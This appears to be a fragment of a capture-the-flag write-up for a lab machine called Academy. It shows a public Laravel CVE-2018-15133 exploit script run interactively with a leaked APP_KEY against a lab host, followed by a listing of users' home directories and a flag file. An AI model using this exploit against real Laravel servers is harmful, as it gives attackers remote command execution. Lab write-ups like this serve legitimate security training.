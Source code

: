 ```

ended up using something else
four3y3s@43y3s:~/Downloads/tools/exploit_laravel_cve-2018-15133$ python3 pwn_laravel.py http://dev-staging-01.academy.htb/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= --interactive
https://github.com/aljavier/exploit_laravel_cve-2018-15133 and APP_KEY


```
ls /home/* -la
/home/21y4d:
total 20
drwxr-xr-x 2 21y4d 21y4d 4096 Aug 10 00:34 .
drwxr-xr-x 8 root  root  4096 Aug 10 00:34 ..
-rw-r--r-- 1 21y4d 21y4d  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 21y4d 21y4d 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 21y4d 21y4d  807 Feb 25  2020 .profile

/home/ch4p:
total 20
drwxr-xr-x 2 ch4p ch4p 4096 Aug 10 00:34 .
drwxr-xr-x 8 root root 4096 Aug 10 00:34 ..
-rw-r--r-- 1 ch4p ch4p  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ch4p ch4p 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 ch4p ch4p  807 Feb 25  2020 .profile

/home/cry0l1t3:
total 32
drwxr-xr-x 4 cry0l1t3 cry0l1t3 4096 Aug 12 21:58 .
drwxr-xr-x 8 root     root     4096 Aug 10 00:34 ..
lrwxrwxrwx 1 root     root        9 Aug 10 23:41 .bash_history -> /dev/null
-rw-r--r-- 1 cry0l1t3 cry0l1t3  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 cry0l1t3 cry0l1t3 3771 Feb 25  2020 .bashrc
drwx------ 2 cry0l1t3 cry0l1t3 4096 Aug 12 21:58 .cache
drwxrwxr-x 3 cry0l1t3 cry0l1t3 4096 Aug 12 02:30 .local
-rw-r--r-- 1 cry0l1t3 cry0l1t3  807 Feb 25  2020 .profile
-r--r----- 1 cry0l1t3 cry0l1t3   33 Dec 24 18:52 user.txt

/home/egre55:
total 24
drwxr-xr-x 3 egre55 egre55 4096 Aug 10 23:41 .
drwxr-xr-x 8 root   root   4096 Aug 10 00:34 ..
lrwxrwxrwx 1 root   root      9 Aug 10 23:41 .bash_history -> /dev/null
-rw-r--r-- 1 egre55 egre55  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 egre55 egre55 3771 Feb 25  2020 .bashrc
drwx------ 2 egre55 egre55 4096 Aug  7 12:13 .cache
-rw-r--r-- 1 egre55 egre55  807 Feb 25  2020 .profile
-rw-r--r-- 1 egre55 egre55    0 Aug  7 12:14 .sudo_as_admin_successful

/home/g0blin:
total 20
drwxr-xr-x 2 g0blin g0blin 4096 Aug 10 00:34 .
drwxr-xr-x 8 root   root   4096 Aug 10 00:34 ..
-rw-r--r-- 1 g0blin g0blin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 g0blin g0blin 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 g0blin g0blin  807 Feb 25  2020 .profile
